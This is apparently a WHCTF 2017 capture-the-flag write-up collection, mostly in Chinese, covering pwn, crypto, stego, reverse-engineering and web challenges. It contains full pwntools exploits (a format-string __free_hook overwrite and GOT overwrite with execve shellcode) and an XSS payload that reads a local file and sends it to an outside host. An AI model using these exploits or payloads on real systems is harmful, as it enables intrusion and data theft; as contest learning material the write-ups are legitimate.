








### easypwn

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level='debug'
context.terminal = ['terminator','-x','bash','-c']

DEBUG = 0

if DEBUG:
	cn = process('./pwn1', env={"LD_PRELOAD": "./libc.so.6"})
	gdb.attach(cn)
	
else:
	cn = remote("118.31.10.225", 20001)
e = ELF('./pwn1')
libc = ELF('./libc.so.6')

# init malloc got
cn.recvuntil('Code:')
cn.sendline('2')
cn.recvuntil('Name:\n')
cn.sendline('aaaaa')

cn.recvuntil('Code:')
cn.sendline('1')

cn.recvuntil('WHCTF2017:\n')
# raw_input()
pay = 'a'*1000+'bb%397$p\n%401$p'
pay.ljust(1080,'a')
cn.sendline(pay)
cn.recvuntil('0x')
data = int(cn.recvuntil('\n')[:-1],16)
cn.recvuntil('0x')
binbase = int(cn.recvuntil('\n')[:-1],16)

libc_base = data - libc.symbols['__libc_start_main']-240
success('libc_base: ' + hex(libc_base))
success("main: " + hex(binbase))
# onegadget = 0xf66c0
# onegadget_libc = libc_base + onegadget
free_book = libc_base + libc.symbols["__free_hook"]
system_libc = libc_base + libc.symbols["system"]
# malloc_got = binbase + e.got["free"] - 0xc3c

info("free_book: " + hex(free_book))
info("system_libc: " + hex(system_libc))


# set one bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = system_libc & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book)
cn.send(pay2)

# set two bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>8) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+1)
cn.send(pay2)

# set three bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>16) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+2)
cn.send(pay2)

# set four bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>24) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+3)
cn.send(pay2)

# set five bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>32) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+4)
cn.send(pay2)

# set six bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>40) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+5)
cn.send(pay2)

raw_input()
cn.recvuntil('Code:')
cn.sendline('2')
cn.recvuntil("Name:\n")
cn.sendline("/bin/sh")
cn.recvuntil("Now!")
cn.interactive()
```


### Py-Py-Py

做了半天密码学，发现无解，然后在github上找到一模一样的代码：<https://github.com/zwhubuntu/CTF-chal-code/blob/master/rc4_al.py>

然后用这个代码中的密钥解出明文：`The challenge is Steganography`

PS: 这个脑洞这么大。。。竟然还有那么多人做出来了，感觉没有这一步的人都是py的

然后找到文章：<http://www.freebuf.com/sectool/129357.html>

直接

```shell
$ python3.6 stegosaurus.py -x pypypy.pyc
Flag{HiD3_Pal0ad_1n_Python}
```


### OldDriver




### Untitled

首先得知，t = s2n("flag")

需要输入x, y

pow(x, e, n) = y

pow(y, d, n) = t

pow(x, e*d, n) = t -> x%n = t

x = t+输入值

输入值可以为0

y的值为pow(t, e, n)

t, e, n已知，可以算出y

然后得到p的前568位

然后参见<http://0x48.pw/2016/11/28/0x28/#Crypto-So-Amazing>

已知576bit就能算出p

所以需要爆破一位










### wbaes

是个 MOVobfs 混淆的 AES 白盒加密程序，直接 hook strcmp 可以发现最终的运算结果和正确结果。
抱着试一试 DFA 攻击是不是可以打各种 AES 白盒的心态，翻出了rhme.riscure的脚本。patch 了程序，使程序将加密结果输出。之后稍微改了改脚本，跑了一会就得到了最后一轮的 AES 秘钥，然后推算出第一轮的 aes 秘钥whctf&flappypig!。再从程序中提取出正确的加密结果，进行解密，得到 flag

```python

import sys
import deadpool_dfa
import phoenixAES
import binascii                   
def processinput(iblock, blocksize):
    p = bytes.fromhex('%0*x' % (2*blocksize, iblock)).decode('ascii')
    print(p) 
    return (None,[p])
def processoutput(output, blocksize):
    num = int(binascii.hexlify(output[:16]), 16)
    if num != 138562705040537042133148046729108755018:
        print (num)
    return num

engine=deadpool_dfa.Acquisition(targetbin='./whitebox', targetdata='./whitebox', goldendata='./whitebox.gold',
        dfa=phoenixAES, processinput=processinput, processoutput=processoutput,
        encrypt = True ,verbose = True ,  faults=[('nop', lambda x: 0x90)],maxleaf=1024, minleaf=1, minleafnail=1

        )
tracefiles_sets=engine.run()
for tracefile in tracefiles_sets[0]:
    if phoenixAES.crack(tracefile):
        break
```
### Router
看了一眼是 go 的程序很开心，翻出吃灰多年的处理脚本，还原了函数名，然后就很简单了。 export 未做权限检查，可以直接下载设置文件。然后本地运行，在验证逻辑eqstring处直接下断，即可读到账号和密码。登陆后，随便点一些什么就发现响应中有flag。
//这题其实可以搞事情，疯狂改密码。这样后来的解题者就只能走 backdoor 的 udp 后门来解题了。


### FindMyMorse

拆包分析发现app的入口点在libnative.so中，找到android_ main就可以找到程序的主逻辑。

发现程序在0x2154处对用户的操作进行了检测。


这个地方的校验比较简单，很容易写出解密程序：

```c
 	unsigned char s[32]={
        0xA7, 0xD6, 0x61, 0xB5, 0x6E, 0xBB, 0xBA, 0xE3, 0xA9, 0xDD, 
        0xC4, 0x77, 0x6F, 0xEE, 0xEC, 0xFF, 0x62, 0xC3, 0xCF, 0xDA, 
        0x53, 0xCE, 0xFF, 0x71, 0x71, 0x14, 0xFF, 0xF2
      };
    char de[300]={0};
    for(int i=0;i!=224;i++)
    {
        int nowindex = (7*(i%4)) + (i/32);
        if((s[nowindex]&1))
        {
            de[i] = '-';
        }
        else
        {
            de[i] = '.';
        }
        int tmp = s[nowindex];
        s[nowindex]= (tmp>>1);        
    }
```

但是解出来这一堆绝对不是摩斯电码，根本没有办法分割字符：

```
--..--.--.--..--....---..-------.----.---.--.----.--.----.--------.-..-..-...-...-.--.------.-..-.--..-.--......-..--..-.------..--.---.-----.-..-.---..---...-.--.-----.-.------.----.-.----.--..-.----.-..--..-.----.-.-----.-
```

于是转变一下思路，可以想到有两种状态的东西还有二进制序列，序列的长度是224，可以是4，7，8为一组的字节流，于是都试了一遍，发现7个一组的时候可以解出flag.

```c
	char de2[60]={0};
    for(int i=0;i<32;i++)
    {
        int tmp = i*7;
        int tmp2 = 0;
        for(int j=0;j<7;j++)
        {
            if(de[tmp+j] == '-')
            {
                tmp2+=(1<<(6-j));
            }
            
        }
        de2[i]=tmp2;
    }
```


### note_sys


Race condition多次delete后把写入地址减到got表，覆盖got表执行

EXP：

```python
from pwn import *

 

DEBUG = 0

VERBOSE = 1

LOCAL = 0

 

if VERBOSE:

   context.log_level = 'debug'

 

if LOCAL:

   io = process('./note_sys', aslr=False)

   if DEBUG:

       gdb.attach(io)

else:

   io = remote('118.31.18.29', 20003)

 

def make_note(content):

   io.recvuntil('choice:\n')

   io.sendline('0')

   io.recvuntil('input your note, no more than 250 characters\n')

   io.send(content)

 

def delete_note():

   io.recvuntil('choice:\n')

    io.sendline('2')

 

for i in range(12):

   delete_note()

 

shellcode ='\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x90'

make_note(shellcode)

delete_note()

io.interactive()
```


### cat

rr的题，看了看文档，发现可以利用@先读取index.php，然后在报错信息中发现有/opt/api/database.sqlite3，读取发现flag:



### Emmm

phpinfo发现开启了xdebug，然后利用vim的插件去远程调试，有一个`,e`操作，实际就是eval，从而拿到flag:



### Scanner

不想说啥了...

扫到trending.php，乱点发现有一个getimg.php：



然后拿到flag：



### Not_only_XSS

算是phantomjs 的本地文件读取漏洞:

secret=\<script>function reqListener () {var b64 = btoa(this.responseText);(new Image()).src="ip"%2bb64;}var oReq = new XMLHttpRequest();oReq.addEventListener("load", reqListener);oReq.open("GET", "file:///var/www/html/flag.php");oReq.send();\</script>

###CRACKME

```python
#CRACKME
t = [59, 102, 49, 75, 51, 123, 99, 53, 58, 101, 102, 108, 50, 49, 116, 52, 59, 49, 116, 49, 122, 97, 120, 112, 105, 109, 57, 125, 53, 43, 63, 103, 116, 117, 120, 59, 61, 118, 99, 57, 118, 123, 118, 55, 43, 98, 117, 104, 85, 123, 98, 84, 61, 45, 97, 109, 50, 113, 125, 61, 102, 104, 91, 120, 107, 123, 121, 63, 120, 114, 113, 101, 123, 63, 125, 108, 53, 45, 115, 100, 50, 45, 77, 111, 43, 58, 106, 123, 57, 61, 115, 89, 91, 100, 97, 108, 118, 112, 120, 63, 122, 51, 123, 63, 110, 111, 123, 91, 107, 53, 108, 108, 123, 122, 106, 115, 117, 53, 91, 107, 102, 108, 97, 43, 114, 54, 90, 103, 55, 50, 111, 48, 115, 107, 113, 54, 99, 71, 108, 53, 99, 119, 91, 61, 100, 63, 51, 118, 57, 113, 53, 45, 118, 107, 106, 83, 118, 123, 52, 115, 113, 116, 103, 61, 102, 48, 99, 122, 123, 43, 106, 117, 114, 106, 102, 108, 91, 116, 98, 93, 108, 114, 102, 70, 49, 59, 50, 125, 117, 100, 104, 98, 63, 48, 103, 56, 123, 111, 109, 58, 84, 52, 100, 104, 59, 122, 58, 111, 122, 45, 68, 110, 61, 109, 61, 117, 120, 59, 111, 91, 103, 115, 57, 123, 43, 122, 113, 120, 43, 115, 113, 45, 100, 115, 120, 99, 116, 99, 118, 121, 107, 85, 115, 50, 111, 100, 100, 114, 116, 52, 51, 112, 119, 118, 58, 102, 48, 59, 110, 106, 107, 114, 98, 57, 108, 111, 115, 54, 103, 48, 123, 105, 104, 63, 114, 113, 97, 110, 116, 102, 120, 36, 115, 115, 108, 113, 100, 58, 114, 118, 113, 105, 120, 114, 59, 106, 123, 63, 111, 58, 115, 110, 43, 91, 105, 91, 121, 65, 49, 49, 59, 103, 115, 109, 114, 56, 108, 109, 48, 63, 51, 125, 59, 43, 105, 118, 43, 84, 102, 58]
s = ''
for i in xrange(0,len(t),10):
    s += chr(t[i+1])
print s
```

### BABYRE

```python
#BABYRE
t = [102,109,99,100,127,107,55,100,59,86,96,59,110,112]
s = ''
for i,v in enumerate(t):
    s += chr(v^i)
print s
```
### EasyHook

EasyHook异常友好，无花无壳无反调试。直接IDA查看main函数可以看到程序在0x401220处进行inlinehook，将WriteFile转至0x401080处。

在0x401080处将调用0x401000检查buffer中传入的flag并恢复hook。

flag检查函数如图所示，可以看出flag的奇数位和偶数位分别执行不同的变换，然后和目标结果比对


相应写出倒推函数


得到flag{Ho0k_w1th_Fun}

不过题目有一个小缺陷，第一个字符无论是什么都会正常通过验证:)